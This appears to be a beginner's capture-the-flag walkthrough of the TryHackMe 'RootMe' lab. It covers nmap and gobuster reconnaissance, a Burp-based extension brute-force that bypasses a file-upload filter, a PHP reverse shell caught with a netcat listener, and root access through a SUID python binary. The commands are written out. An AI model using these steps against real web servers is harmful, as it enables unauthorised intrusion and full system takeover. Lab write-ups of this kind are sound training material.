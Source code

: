 # Rootme- A CTF for beginners
- Reconnaissance
- Getting a shell
- Privilege Escalation

##  Steps-

# 1
- Running the openvpn file ```sudo openvpn CyberSumit.ovpn```
-  Setting the IP as rootme.com
# 2
- Scan the target IP with nmap
```sudo nmap -Pn -sV -vvv -oN npsv.txt```
- Only 2 port numbers are running 22,80.
(no -p- signifies first 1000 ports shall  be scanned)
- Search for known vulnerabilities in Apache 2.4.29
- No Exploits found
# 3.Finding Hidden Directories with gobuster
- ``` gobuster dir -u http://rootme.com/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
- we find js,css,uploads and panel as the hidden directories
- -whatever we upload in panel appears in uploads.
# 4.Getting the Revershell
- Look for the php payload and copy it to the present directory and upload it to panel with brute forced extensions to get a shell.
- Open burpsuite and in the proxy setting set the port number to 8085 and install the foxyproxy addon in the browser. Create a Burp proxy in foxy proxy with the port 8085 and IP as given in Burpsuite.
- Enable the intercept in proxy(BurpSuite) and as we upload a file in panel , the requests are shown in the burpsuite then we can alter some things in the request and forward it to the backend with the help of proxy.
- In a similar way we move it to the intruder and select the extension of php file and add it to brute force.
- the .phtml extension was found suitable after the attack.
- Make Sure to add the Host IP and port number to the php file.
- start the netcat listener -```nc -lvnp 2222```
- as we upload the phtml file to panel and then click on it from the uploads we can get a connection in out kali which has an unstable terminal which we need to stabilize with python commands.
 ```cd Desktop/TryHackMe/rootme```
```cp -r /usr/share/webshells/php/php-reverse-shell.php .```
# Command for Terminal Stabilization
``` python -c 'import pty; pty.spawn("/bin/bash")'```

-  ```export TERM=xterm```

# Command for Privilege Escalations

- Visit ``` python -c 'import pty; pty.spawn("/bin/bash")'```

-  ```export TERM=xterm```
- Copy the SUID command and paste it in the kali terminal to get the root privilege in machine 
- ```python -c 'import os; os.execl("/bin/sh", "sh", "-p")'```
- Find out the FLAGS using suitable commands 
- Command to search a particular name in the system -- ```find / -name user.txt 2>/dev/null```
- 



##KnowledgePlus
- To know your IP go to dnsleaktest.com and to check your IP score go to scamalytics.com 
- Directory-trans - if we can access an image in a platform by the URL then we should try to visit the upload directory, if we are not getting 403 or we are able to bypass the status then the website is vulnerable to directory trans.
- Using page source for directory trans- we can open the page source and find out the hidden directories with the manual testing 
